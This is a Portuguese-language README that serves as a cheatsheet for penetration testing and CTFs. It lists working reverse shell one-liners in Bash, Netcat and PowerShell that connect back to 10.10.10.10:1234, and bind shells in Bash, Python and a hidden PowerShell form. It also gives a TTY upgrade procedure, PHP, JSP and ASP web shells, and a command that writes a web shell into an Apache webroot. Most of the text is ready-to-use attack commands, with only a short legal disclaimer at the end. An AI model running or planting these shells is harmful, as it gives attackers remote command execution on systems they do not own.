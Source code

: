 # 🐚 Cheatsheet: Reverse Shells, Bind Shells & TTY

Este repositório traz um conjunto prático de comandos úteis para obtenção de shells remotas durante testes de penetração, exploração ou CTFs.

Gerador de shell reversa bastante útil: [reverse-shell.sh](https://reverse-shell.sh/)

---

## 📡 Reverse Shell

Um *reverse shell* é quando a máquina alvo se conecta de volta ao nosso host, nos fornecendo uma shell remota.

- Bash: `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'`
- Netcat + FIFO: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 >/tmp/f`
- PowerShell: `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"`

---

## 🔗 Bind Shell

Um *bind shell* escuta conexões em uma porta específica da máquina alvo. Diferente do reverse shell, **nós nos conectamos ao alvo**.

- Bash: `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 >/tmp/f`
- Python: `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
- PowerShell: `powershell -NoP -NonI -W Hidden -Exec Bypass -Command "$listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + ' ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

---

## 🖥️ TTY Shell Upgrade

Use isso para obter uma shell mais interativa (ex: com tab-completion e atalhos funcionais):

1. Use: `python -c 'import pty; pty.spawn("/bin/bash")'`
2. Coloque a shell em segundo plano com `CTRL + Z`
3. No seu terminal local, digite: `stty raw -echo`
4. Volte para a shell com `fg` e pressione `Enter` duas vezes
5. A shell agora está interativa!

Podemos notar que nosso shell não cobre todo o terminal. Para corrigir isso, precisamos descobrir algumas variáveis. Podemos abrir outra janela de terminal em nosso sistema, maximizar as janelas ou usar qualquer tamanho que quisermos e, em seguida, inserir os seguintes comandos para obter nossas variáveis:

- Gust4vo@htb[/htb]$ echo $TERM xterm-256color
- Gust4vo@htb[/htb]$ stty size 67 318



---

## ℹ️ Notas

- Substitua `10.10.10.10` pelo seu IP local
- Altere a porta `1234` conforme necessário
- Para escutar conexões, use: `nc -lvnp 1234`

---

## 🌐 Web Shell

A *Web Shell* normalmente é um script web, ou seja., PHP ou ASPX, que aceita nosso comando através de parâmetros de solicitação HTTP, tais como GET ou POST solicitar parâmetros, executa nosso comando e imprime sua saída de volta na página da web.

- php: `<?php system($_REQUEST["cmd"]); ?>`
- jsp: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
- asp: `<% eval request("cmd") %>`

Uma vez que temos o nosso shell web, precisamos colocar o nosso script shell web no diretório web do host remoto (webroot) para executar o script através do navegador web.

![image](https://github.com/user-attachments/assets/673c3f82-0817-422c-82f3-6307de7a63bf)

Se fosse um Linux executando Apache por exemplo seria `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`, e podemos acessar a web shell pela URL e pelo curl.

curl "http://example.com/shell.php?cmd=whoami"

---


> ⚠️ **Aviso legal:** Todos os comandos aqui têm propósito educacional e devem ser utilizados somente em ambientes controlados ou com permissão explícita.
